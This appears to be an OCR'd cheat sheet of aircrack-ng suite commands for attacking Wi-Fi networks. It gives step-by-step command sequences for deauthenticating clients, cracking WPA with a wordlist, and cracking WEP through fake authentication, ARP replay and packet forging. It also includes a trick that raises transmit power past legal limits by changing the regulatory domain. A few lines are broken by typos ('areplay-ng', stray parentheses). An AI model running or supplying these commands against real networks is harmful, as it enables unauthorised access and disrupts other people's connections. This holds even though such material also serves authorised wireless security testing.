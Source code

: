 ## **Setting TX \(transmit\) POWER**

```bash
iw reg set BO
iwconfig wlan0 txpower 25
```

## **Cracking WPA**

```bash
airmon-ng start wlan0
airodump-ng -c $channel --bssid $AP_MAC -w $out_file wlan0mon
aireplay-ng -0 1 -a $AP_MAC -c $victim_MAC wlan0mon #de-authentication attack
aircrack-ng -0 -w $pass_list $cap_file
```

## **Cracking WEP**

###  **with Connected Clients**

```bash
airmon-ng start wlan0 #[$channel] (optional)
airodump-ng -c $channel --bssid $AP_MAC -w $out_file wlan0mon
aireplay-ng -1 0 -e $ESSID -a $AP_MAC -h $host_MAC wlan0mon #fake authentication
aireplay-ng -3 -b $AP_MAC -h $host_MAC wlan0mon #ARP replay attack
aireplay-ng -0 1 -a $AP_MAC -c $client_MAC wlan0mon #de-authentication attack - as needed
```

\`\`

### **via a Client**

```bash
airmon-ng start wlan0 #[$channel] (optional)
airodump-ng -c $channel --bssid $AP_MAC -w $out_file wlan0mon
aireplay-ng -1 0 -e $ESSID -a $AP_MAC -h $host_MAC wlan0mon #fake authentication
aireplay-ng -2 -b $AP_MAC -d FF:FF:FF:FF:FF:FF -f 1 -m 68 -n 86 wlan0mon
aireplay-ng -2 -r $in_cap_file wlan0mon #inject using cap file
aircrack-ng -0 -z -n 64 $in_cap_file
```

### **ARP amplification**

```bash
airmon-ng start wlan0 #[$channel] (optional)
airodump-ng -c $channel --bssid $AP_MAC -w $out_file wlan0mon
aireplay-ng -1 500 -q 8 -a $AP_MAC wlan0mon
areplay-ng -5 -b $AP_MAC -h $host_MAC wlan0mon
packetforge-ng -0 -a $AP_MAC -h $host_MAC -l $src_IP -k $dest_IP -y $FRAGMENT_XOR   -w $out_cap_file
tcpdump -n -vvv -e -s0 -r $in_cap_file
packetforge-ng -0 -a $AP_MAC -h $host_MAC -k $destIP) -l $srcIP) -y $FRAGMENT_XOR -w $out_cap_file
aireplay-ng -2 -r $in_cap_file wlan0mon
```
